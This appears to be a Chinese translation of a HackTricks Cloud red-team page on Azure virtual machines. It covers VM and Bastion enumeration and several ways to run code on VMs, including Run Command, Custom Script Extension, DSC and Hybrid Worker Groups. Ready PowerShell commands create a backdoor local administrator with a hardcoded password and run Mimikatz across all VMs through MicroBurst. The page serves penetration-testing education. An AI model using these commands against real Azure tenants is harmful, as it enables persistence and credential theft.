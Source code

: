 # Az - 虚拟机与网络

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 基本信息

[来自文档：](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure 虚拟机是 Azure 提供的几种类型的 [按需、可扩展计算资源](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) 之一。通常，当您需要对计算环境有比其他选择更多的控制时，您会选择虚拟机。本文提供了在创建虚拟机之前应考虑的信息、如何创建虚拟机以及如何管理虚拟机的信息。

## Azure 网络信息

Azure 网络包含 **不同的实体和配置方式。** 您可以在以下内容中找到不同 Azure 网络实体的简要 **描述、** **示例** 和 **枚举** 命令：

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** 提供了一种安全、完全托管的 RDP（远程桌面协议）和 SSH（安全外壳）访问解决方案，通过 Azure 门户通过 SSL 进行访问。它集成在 Azure 虚拟网络中，允许使用私有 IP 进行 RDP 和 SSH 连接到虚拟机，避免了对公共 IP 的需求。这使其成为一种比传统方法更安全、更方便的替代方案，传统方法涉及公共 IP 分配和 NSG 规则配置以访问虚拟机。开发人员和 IT 人员可以通过他们的 Web 浏览器安全地从 Azure 门户访问虚拟机，从而简化了开发和测试环境的过程。

要列出您订阅中的所有 Azure Bastion 主机，您可以使用以下命令：

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## 虚拟机枚举
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **在虚拟机中运行命令**

### **虚拟机中的AAD登录**

可以允许通过AzureAD认证的用户访问。例如，尝试访问一个**linux VM**：`ssh username@azure-corp.com@1.1.1.1`（重要的是**使用登录时使用的azurecorp的电子邮件**），你可能会遇到如下错误： 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

只需**按照这些说明**前往 [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) 并输入代码，使用电子邮件和密码作为凭据，您将能够通过 SSH 连接（如果该用户具有足够的权限：`Virtual Machine Administrator Login` 或 `Virtual Machine User Login` 角色）。

### **运行命令**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **运行自定义脚本扩展**

Azure 虚拟机 (VM) 扩展是 **小型应用程序**，用于在 **Azure VMs** 上提供部署后配置和自动化 **任务**。例如，如果虚拟机需要软件安装、杀毒保护或在其中运行脚本的能力，您可以使用 VM 扩展。

因此，如果您有权限写入它，您可以执行任意代码：
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) 是一个类似于 Ansible 的 PowerShell 工具，用于通过代码设置主机。DSC 与 Azure 集成，允许上传特定的配置文件。这些文件必须遵循严格的语法。值得注意的是，Azure 中的 DSC 扩展可以执行符合某些格式标准的文件中的命令，即使语法不符合 DSC 标准，如提供的图示所示。

这些命令的执行是通过 [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) 函数在 Az PowerShell 中实现的。要求包括一个定义了函数的 **.PS1** 文件，并且该文件必须被压缩成 **.zip** 文件。尽管语法可能不准确，代码仍然会执行。然而，扩展会将执行状态标记为“失败”，并且由于状态被失败消息覆盖，命令的输出将不可见。

### VM Application Definitions

VM Application Definitions 允许将版本化的应用程序重复部署到 Azure VM。此资源支持跨 VM 部署和更新应用程序。要设置此功能，需要几个步骤，涉及 Az PowerShell 中的命令，如 **`New-AzGalleryApplication`** 和 **`New-AzGalleryApplicationVersion`**。

通过此方法执行应用程序或命令涉及 **"VMAppExtension"**，该扩展在应用程序应用于 VM 时自动安装。扩展从指定的 URI 检索文件，并将其命名为与应用程序完全相同，不带扩展名。为了正确执行文件，REST API 调用中的 "ManageActions" 字段必须配置为使用适当的扩展名重命名文件。此方法的设置完成后，将类似于提供的图示所示的结构。

然而，这种执行方法相对较慢，执行一个应用程序或命令大约需要 3-4 分钟。与此过程相关的文件存储在特定目录中（应用程序副本在 `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\`，执行状态在 `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`）。

这两种技术提供了在 Azure 环境中执行命令和部署应用程序的独特方式，各自具有一套要求、步骤和注意事项。

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) 是 Azure 中的一项功能，允许在指定 HWG 的 Azure 虚拟机 (VM) 上执行在自动化帐户中配置的 Runbook。此执行通过安装在 VM 上的扩展来实现，该扩展将 Runbook 代码部署到 VM。此过程的一个重要方面是，实际凭据在执行中不是一个因素，因为代码以提升的权限运行，具体为 **SYSTEM** 或 root，如提供的图示所示。

对于使用 Windows 10 VM 的用户，一个关键细节是必须为 Runbook 指定 PowerShell 版本。应设置为以 PowerShell 版本 5.1 而不是 7.1 运行。此要求源于 PowerShell 7.1 在这些 VM 上不是默认安装的，如果指定版本 7.1，则会导致脚本执行失败。

Azure 的这一功能提供了一种强大的方法，用于在混合环境中自动化和管理任务，允许在 Azure VM 上集中管理和执行任务。

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
